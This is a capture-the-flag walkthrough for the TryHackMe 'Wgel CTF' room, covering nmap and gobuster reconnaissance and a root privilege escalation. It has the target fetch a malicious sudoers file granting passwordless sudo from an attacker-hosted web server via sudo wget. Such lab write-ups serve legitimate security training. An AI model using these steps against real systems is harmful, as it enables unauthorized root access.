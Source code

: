 ```yaml
---
layout: post
title: Walkthrough - Wgel CTF	
published: true
---
```


Exfiltrate the root flag

[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

* * *

## Discovery

- nmap -F -A -T4 10.10.247.33 -vvv
- gobuster dir -u http://10.10.247.33/sitemap -w /usr/share/wordlists/dirb/common.txt -x txt,php,html,cgi --no-error -t 100 
- we find a username to use with the id_rsa in the source code of the apache welcome page

* * *

## User flag

- ``cat user_flag.txt``

* * * 

## Root flag

create sudoers file on attacker

```shell
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```

- ``python3 -m http.server 80``

- on target machine travel to /etc and wget sudoers file
- ``sudo su``
- ``cat /root/root_flag.txt``

* * * 